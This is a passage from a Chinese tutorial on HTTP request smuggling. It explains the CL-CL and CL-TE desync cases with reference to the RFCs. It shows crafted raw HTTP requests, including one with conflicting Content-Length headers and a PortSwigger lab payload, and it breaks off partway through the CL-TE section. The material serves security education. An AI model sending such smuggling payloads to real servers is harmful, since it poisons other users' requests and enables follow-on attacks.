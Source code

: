 前端服务器收到该请求，通过读取 `Content-Length`，判断这是一个完整的请求，然后转发给后端服务器，而后端服务器收到后，因为它不对 `Content-Length` 进行处理，由于 `Pipeline` 的存在，它就认为这是收到了两个请求，分别是

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```http<br># 第一个<br>GET / HTTP/1.1\r\n<br>Host: example.com\r\n<br><br># 第二个<br>GET /secret HTTP/1.1\r\n<br>Host: example.com\r\n<br>``` |

### [](#22-cl-cl)2.2 CL-CL

在 `RFC7230` 的第 `3.3.3` 节中的第四条中，规定当服务器收到的请求中包含两个 `Content-Length`，而且两者的值不同时，需要返回 400 错误。

但是总有服务器不会严格的实现该规范，假设中间的代理服务器和后端的源站服务器在收到类似的请求时，都不会返回 400 错误，但是中间代理服务器按照第一个 `Content-Length` 的值对请求进行处理，而后端源站服务器按照第二个 `Content-Length` 的值进行处理。

此时恶意攻击者可以构造一个特殊的请求：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```http<br>POST / HTTP/1.1\r\n<br>Host: example.com\r\n<br>Content-Length: 8\r\n<br>Content-Length: 7\r\n<br><br>12345\r\n<br>a<br>``` |

中间代理服务器获取到的数据包的长度为 8，将上述整个数据包原封不动的转发给后端的源站服务器，而后端服务器获取到的数据包长度为 7。当读取完前 7 个字符后，后端服务器认为已经读取完毕，然后生成对应的响应，发送出去。而此时的缓冲区去还剩余一个字母 `a`，对于后端服务器来说，这个 `a` 是下一个请求的一部分，但是还没有传输完毕。此时恰巧有一个其它的正常用户对服务器进行了请求，假设请求如图所示：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```http<br>GET /index.html HTTP/1.1\r\n<br>Host: example.com\r\n<br>``` |

从前面我们也知道了，代理服务器与源站服务器之间一般会重用 TCP 连接。

这时候正常用户的请求就拼接到了字母 `a` 的后面，当后端服务器接收完毕后，它实际处理的请求其实是：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```http<br>aGET /index.html HTTP/1.1\r\n<br>Host: example.com\r\n<br>``` |

这时候用户就会收到一个类似于 `aGET request method not found` 的报错。这样就实现了一次 HTTP 走私攻击，而且还对正常用户的行为造成了影响，而且后续可以扩展成类似于 CSRF 的攻击方式。

但是两个 `Content-Length` 这种请求包还是太过于理想化了，一般的服务器都不会接受这种存在两个请求头的请求包。但是在 `RFC2616` 的第 4.4 节中，规定：`如果收到同时存在 Content-Length 和 Transfer-Encoding 这两个请求头的请求包时，在处理的时候必须忽略 Content-Length`，这其实也就意味着请求包中同时包含这两个请求头并不算违规，服务器也不需要返回 `400` 错误。服务器在这里的实现更容易出问题。

### [](#23-cl-te)2.3 CL-TE

所谓`CL-TE`，就是当收到存在两个请求头的请求包时，前端代理服务器只处理 `Content-Length` 这一请求头，而后端服务器会遵守 `RFC2616` 的规定，忽略掉 `Content-Length`，处理 `Transfer-Encoding` 这一请求头。

chunk 传输数据格式如下，其中 size 的值由 16 进制表示。

Lab 地址：[https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te)

构造数据包：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```http<br>POST / HTTP/1.1\r\n<br>Host: ace01fcf1fd05faf80c21f8b00ea006b.web-security-academy.net\r\n<br>Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8\r\n<br>Accept-Language: en-US,en;q=0.5\r\n<br>Cookie: session=E9m1pnYfbvtMyEnTYSe5eijPDC04EVm3\r\n<br>Connection: keep-alive\r\n<br>Content-Length: 6\r\n<br>Transfer-Encoding: chunked\r\n<br>\r\n<br>0\r\n<br>\r\n<br>G<br>``` |
